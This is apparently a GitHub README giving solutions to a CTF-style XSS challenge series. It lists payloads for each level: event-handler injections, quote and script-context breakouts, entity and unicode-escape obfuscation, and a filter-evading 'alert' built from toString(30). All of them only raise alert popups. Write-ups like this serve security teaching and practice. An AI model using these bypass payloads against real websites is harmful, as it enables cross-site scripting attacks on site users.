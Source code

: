 <p align="center">
  <img src="https://github.com/brono4/XSS-challenges/blob/main/XSS.jpg?raw=true" alt="XSS Challenge">
</p>



# 🚨 Solutions of XSS Challenges of http://sudo.co.il/xss/

---
## 🎯 Goal for CTFs:

**Our goal is to trigger a popup displaying  — all without requiring any user interaction! 🚫🖱️**


##  🔓 Challenge Solutions

- Level 0 🧪
```
<img src=1 onerror=alert(document.domain)>
```
- Level 1🧪
```
"><img src=1 onerror=alert(document.domain)>
```

- Level 2 🧪
```
" autofocus onfocus=alert(1) x="
```
- Level 3 🧪
```
"autofocus/onfocus="alert(document.domain)
```

- Level 4 🧪
```
"autofocus/onfocus="&#x61;lert&#x28;document.domain&#x29;
```

- Level 5.1 🧪
```
'-alert(document.domain);<!--
```
- Level 5.2 🧪
```
\'-alert(1);<!--
```
- Level 6 🧪
```
\'-alert(document.domain);//
```
- Level 7 🧪
```
" autofocus onfocus=alert(1) x="    #like 2
```
- Level 8 🧪
```
this[8680439..toString(30)](document.domain)
```
- Level 8.1 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 9 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 10 🧪
```
';this[8680439..toString(30)](document.domain);'
```

- Level 11 🧪
```
#<script>alert(document.domain)</script>
```
🧨 Level 12 — External Payload Injection

📎 Go to: http://untrusted.sudo.co.il/iframe.php?p=

Paste the following encoded payload:

%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

🔗 Final link:

http://untrusted.sudo.co.il/iframe.php?p=%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

---
## 👨‍💻 Author
💻 Made with ❤️ by Bruno.





